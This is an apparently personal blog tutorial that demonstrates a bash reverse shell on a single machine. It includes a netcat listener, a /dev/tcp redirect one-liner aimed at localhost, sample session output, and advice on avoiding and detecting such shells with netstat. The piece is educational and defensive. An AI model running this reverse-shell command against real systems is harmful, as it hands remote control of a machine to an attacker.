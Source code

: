 ```yaml
---
title: "What does a reverse shell actually look like?"
description: "Using basic Linux Bash commands to demonstrate a simple reverse shell."
tags:
  - networking
  - linux
  - bash
  - nc
  - security


---
```


A reverse shell is a type of shell where the target machine (under attack) communicates back to an attacker's machine, and importantly, gives the attacker control over the target machine. 

The attacker's machine will be listening on a port. A malicious script runs on the target machine, which connects back to the attacker's machine. The attacker's machine receives the connection. The attacker is then able to execute commands on the target machine.  

I'll create a simple example to demonstrate one to follow along with, it's just a few basic Linux Bash commands on the same machine. The simplicity of setting up a reverse shell is the reason why you should always be careful about what you run on your machine.

## Set up the listener

In one terminal window, setup a listener. Pretend that this is the attacker's machine.     

```bash
nc -lnvp 1337
```

It should simply say "Listening on 0.0.0.0 1337". 


## Connect to the listener

Now in another terminal window, run this command to 'connect' to the listener. Pretend that this is the machine being compromised.  

```bash
/bin/bash --rcfile <(echo "PS1='omghacker: '") -i >& /dev/tcp/127.0.0.1/1337 0>&1
```

The `/bin/bash` starts a new shell.  
The `-i` makes it interactive.   
The `--rcfile` bit is just something I've added to make the prompt look different, but isn't necessary.
The `>& /dev/tcp/...` redirects the input and output to the listener by making use of the [`/dev/tcp` feature in Linux Bash](2024-07-28-networking-cheat-sheet.md#reach-a-port-on-a-server).  
The `0>&1` redirects both standard input and output to the listener.    

## What happens?

Nothing will happen in the second terminal window. But, go back to the first terminal window where the listener is running, and you should see a new prompt. It might look something like this.  

```
$ nc -lnvp 1337
Listening on 0.0.0.0 1337
Connection received on 127.0.0.1 39738
omghacker:
```

The `omghacker:` is the prompt from the "compromised machine". 

You can now try running commands against it. Try `ls`, `pwd`, `whoami`, etc.

![Reverse shell](/assets/images/simple-reverse-shell-in-linux-bash/001.png)



When you're done, just `exit` to close the connection.


## Why is this dangerous?

This demonstrates just how easy it is to set up a reverse shell. It's not just limited to Bash, it can be done in [several languages and environments](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/). 

The `whoami` command would have shown that it's the user running on the compromised machine, which means their permissions are the attacker's permissions. 

It's also one of the (many) reasons that `curl | bash` type installations, often seen when installing software, are frowned upon. Sadly, they are still widely used out of laziness, convenience, or simply ignorance, and it is pretty sad to see well established projects promoting this security risk. 

The best way to protect yourself from a reverse shell attack is to be careful about what you run on your machine. If you're running a script from the internet, make sure you understand what it does first, don't just blindly run it. 

For developers, it's important to be avoid trying to make OS calls from code, especially when passing user input directly to the command. Those situations should be avoided as much as possible. Bash is rich and powerful in the creativity it proffers, and so sanitisation is not really going to help that much.

For application deployments, this is one of the (many) reasons why containers are useful; they provide a level of isolation, and therefore a reduced blast radius if something goes wrong.  

Just for reference, the following command can show you all the established connections on your machine, with the process ID and command. 

```bash
netstat -pan | grep -i ESTABLISHED
```

Here is what the reverse shell example would look like. An established connection from bash should prompt you to investigate further.

```
tcp        0      0 127.0.0.1:49364         127.0.0.1:1337          ESTABLISHED 24449/bash 
```

Note: it's not a perfect way of detecting reverse shells though, there are ways of hiding the connection, and the connection isn't always active. Other tools like [Fenrir](https://github.com/Neo23x0/Fenrir) might help as well. 
